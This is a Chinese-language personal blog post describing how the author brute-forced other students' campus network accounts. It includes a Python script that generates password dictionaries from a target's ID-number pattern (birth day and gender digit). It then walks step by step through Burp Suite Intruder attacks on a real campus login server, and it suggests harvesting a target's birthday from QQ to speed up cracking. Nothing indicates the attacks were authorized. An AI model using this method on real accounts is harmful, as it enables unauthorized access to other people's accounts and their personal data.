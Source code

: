 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      My First Post               # 标题 
subtitle:   记一次对校园网账号的爆破 #副标题
date:       2019-05-18              # 时间
author:     Von                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Practice
    - Web
---
```

前言
---
  上个星期开始就试图对校园网账号进行爆破。当出现验证码后试图用tesserocr对其进行识别继续爆破。然而发现简单的识别识别不出来。本来tesserocr支持
机器学习，然而由于我的菜一直没搞懂，工程本来就此停滞。但是后来在手机上查询校园网流量余额时偶然发现查询流量的网站在移动端居然没有验证码验证。于
是想到可以对移动端进行抓包然后进行爆破。

准备工作
---
  由于校园账号的默认密码是身份证后六位。而身份证后六位的前两位是生日，倒数第二位是性别识别码。所以根据不同的人来生成不同的字典可以大大地提高
速度。由下我写了个python脚本可以根据不同的用户输入生成不同的字典。
```python
def Fun(birthday = '',gender = ''):
	File = 'DICT.txt'
	num = 0
	with open(File,'w') as f:
		if birthday :
			if gender :
				for i in range(0,100):
					STR1 = birthday.zfill(2) + str(i).zfill(2)
					if gender == 'Male':
						for j in range(1,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
					else:
						for j in range(0,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
			else :
				for i in range(0,1000):
					STR1 = birthday.zfill(2) + str(i).zfill(3)
					for j in range(0,10):
						STR2 = (STR1 + str(j) + '\n')
						num += 1
					f.write(STR1 + 'X' + '\n')
					num += 1
		else:
			if gender :
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,100):
						STR2 = STR1 + str(j).zfill(2)
						if gender == 'Male':
							for k in range(1,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
						else:
							for k in range(2,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
							
			else:
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,1000):
						STR2 = STR1 + str(j).zfill(3)
						for k in range(0,10):
							f.write(STR2 + str(k) + '\n')
							num += 1
						f.write(STR2 + 'X' + '\n')
						num += 1
	print('Dictionary generation was successful with a total number of '+str(num))
					
	
if __name__=='__main__':
	day = input('Please input the day: ')
	gender = input('Please input the gender(Male or Female): ')
	Fun(day,gender)	
```

实战爆破
---
  首先我们使用burpsuite对移动端进行抓包。关于对移动端进行抓包这里不做赘述（原理就是在同个局域网中让手机挂上PC端的代理）。然后让手机访问查询
校园网流量的网站[10.255.44.1:8800](10.255.44.1:8800).抓包所得结果如下:
![](http://VonLYC.github.io/img/BLOG1.png)
  我们可以看出，账号密码是进行明文传输，这给我们的工作提供了便利。我们右键，将其send to intruder.在Positions中将password添加为一个攻击点。
![](http://VonLYC.github.io/img/BLOG2.png)
  再在Payloads中选择我们生成的字典。
![](http://VonLYC.github.io/img/BLOG3.png)
  再在Options中选择线程(Professional版好像默认为5)。之后就可以Start Attack了。
![](http://VonLYC.github.io/img/BLOG4.png)
  接下来的事我们就只需要让burp suite自动完成了。我们只需要在Length中筛选出与其他不同的一项，其所对应的payload就是用户的密码。
![](http://VonLYC.github.io/img/BLOG5.png)
  一般来说,如果我们知道要破解账号的生日的话，生成的字典只有5500个payload，这样一般5分钟内可以得出密码。而如果不知道对方的生日，生成的字典的
payload则有100000+个，一般就需要1，2个小时才可以得出密码。所以如果结合社会工程学从对方QQ之类的东西获取到对方的生日则可以大大的提高效率。

总结
---
  这是我写的第一篇博客，技术含量不高。纯粹是为了记录一下这项小Practice。希望以后能够通过不断的学习正确多更一些高质量的文章吧。





